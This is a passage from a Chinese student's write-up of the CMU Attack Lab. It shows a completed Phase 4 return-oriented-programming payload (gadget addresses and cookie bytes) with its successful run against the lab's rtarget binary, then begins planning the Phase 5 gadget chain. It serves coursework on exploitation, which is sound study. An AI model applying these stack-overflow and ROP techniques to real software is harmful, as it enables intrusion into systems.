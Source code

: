 由此，输入的攻击字符串的前 40 个字节随意，后面 32 个字节根据上述栈情况为（注意应该用小端法）

```
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

> 刚刚差点把 gadget1 和 2 的地址搞反了，导致跑出来 segmentation fault，还疑惑是怎么回事，后来一看发现不好，哈哈哈哈，做题的时候还是要认真仔细嗷！

输入`./hex2raw < phase4.txt | ./rtarget -q`（注意不要输入成`ctarget`啦！），运行结果如下：

```bash
gwen@gwen-virtual-machine:~/Documents/report/code/15213/lab/lab3-attack-lab$ ./hex2raw < phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### Phase 5

phase 5 的任务是让`%rdi`指向`cookie`的字符串表示并调用`touch 3`，这个任务看起来有点类似我们在 Phase 3 中做的工作。

作者提示：

1. 可使用的`gadget`的范围是`start_farm`到`end_farm`
2. 利用 Appendix 中的表
3. 复习一下课本 P83 的`movl`的用法
4. 官方答案使用了 8 个 gadget

在 Phase 3 中我们所做的工作是：

1. 插入攻击字符串在攻击代码前
2. 在返回地址处插入攻击代码的起始位置
3. 在攻击代码中实现如下操作：
   1. 将攻击字符串的地址赋值给`%rdi`
   2. 将`touch3`的返回地址压入返回地址处

现在使用`rop`后的问题在于：攻击字符串压到哪？现在栈上是返回地址和字符串的组合。那么我们的想法是让攻击字符串放在所有 gadget 地址之后。但是具体放在之后多少呢？这要看`mov xxx, %rdi`中哪些地址的编码存在。

首先，`cookie`的值是`59b997fa`，那么其字符串编码是`0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61 0x00`(`0x00`是字符串最后的`\0`)。那么我们构建的`gadget`中应有的步骤是：

1. `mov 地址,%rdi`
2. `ret`

此外，`touch3`的地址是`0x4018fa`。那么我们最初设计的栈空间如图：
